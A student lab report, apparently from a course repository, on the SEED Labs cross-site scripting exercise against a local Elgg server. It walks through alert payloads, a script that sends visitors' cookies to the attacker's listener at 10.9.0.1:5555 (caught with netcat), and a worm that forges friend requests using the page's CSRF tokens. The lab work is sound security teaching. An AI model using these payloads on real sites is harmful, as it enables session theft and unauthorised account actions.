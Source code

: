 # SEED Labs

## Cross-Site Scripting (XSS) Attack Lab

### Task 1: Posting a Malicious Message to Display an Alert Window

- We started by doing the setup, including the DNS and server setups, as we did for the previous lab. 

- This time we also installed the Firefox add-on *HTTP Header Live*, with the goal of capturing and analyze HTTP requests.

- To display an alert window, we just embedded the JavaScript code `<script>alert('XSS');</script>` in the `Brief description` field of a random profile (in this case Alice's). This causes an alert window with the message *XSS* to be displayed each time a user accesses Alice's profile.

![Task 1](images/alice_alert.png "Task 1: Displayed an alert window on Alice's profile")

### Task 2: Posting a Malicious Message to Display Cookies

- To display the user's cookies in an alert window on a profile, we embedded the JavaScript code `<script>alert(document.cookie);</script>` in the `Brief description` field of Alice's profile (yet again). This causes an alert window displaying the viewer's cookies to appear each time a user accesses Alice's profile.

![Task 2](images/alice_cookies.png "Task 2: Displayed an alert window with the viewer's cookies on Alice's profile")

### Task 3: Stealing Cookies from the Victim’s Machine

- This time around, our goal is to get the cookies of the visitors of a profile, but in such a way that only the we, the attackers, can see. To achieve this, we want a *HTTP GET* request to be sent to the our machine containing the user's cookies. It can be done by having the malicious JavaScript insert an `<img>` tag with its `src` attribute set to the our machine. When the JavaScript inserts the `img` tag, the browser tries to load the image from the URL in the `src` field. The *HTTP GET* request, will then, be sent to the port we will specify in the referred `src` field, in this case the `port 5555`.

- We executed this by embedding the following script `<script>document.write('<img src=http://10.9.0.1:5555?c=' + escape(document.cookie) + ' >');</script>` once again in the `Brief description` field of Alice's profile.

- Finnaly we set up a TCP server to listen the `port 5555`, using the commmand `nc -lknv 5555`, in order to obtain the *HTTP GET* request containing the cookies.

![Task 3](images/netcat_cookies.png "Task 3: HTTP GET request containing the user's cookies")

### Task 4: Becoming the Victim’s Friend

- The objective of this task is to write an XSS worm that adds Samy as a friend to any other user that visits Samy’s page. In order to write said worm we needed to understand the structure of the *HTTP* request for adding friends. To do that we used the aforementioned *HTTP Header Live* Firefox add-on.

- We observed that when a user added Samy to his friend list the *HTTP* request would be something like : `http://www.seed-server.com/action/friends/add?friend=59&__elgg_ts=1639964237&__elgg_token=ueHP3gyKeBB3z1PSar2LFg&__elgg_ts=1639964237&__elgg_token=ueHP3gyKeBB3z1PSar2LFg`. Basically it would always be `http://www.seed-server.com/action/friends/add?friend=59` plus the security tokens twice, with the number 59 being the identifier for Samy, as it changed when we tried to add users other than Samy as friends.

- Using the code skeleton provided for us, we embedded the following JavaScript code in the `About Me` field of Samy's profile:

```js
<script type="text/javascript">
window.onload = function () {
var Ajax=null;
var ts="&__elgg_ts="+elgg.security.token.__elgg_ts;
var token="&__elgg_token="+elgg.security.token.__elgg_token;
//Construct the HTTP request to add Samy as a friend.
console.log("TS TKN: " + ts);
console.log("TKN TKN: " + token);
var sendurl= "/action/friends/add?friend=" + "59" + ts + token + ts + token; //FILL IN
//Create and send Ajax request to add friend
Ajax=new XMLHttpRequest();
Ajax.open("GET", sendurl, true);
Ajax.send();
}
</script>
```

- It worked as intended! For example, Charlie's friend list looked like this initially:

![Task 4](images/charlie_friends_init.png "Task 4: Charlie's empty friend list")

- And changed to this, after only visiting Samy's profile:

![Task 4](images/charlie_friends_samy.png "Task 4: Charlie's friend list after visiting Samy's profile")
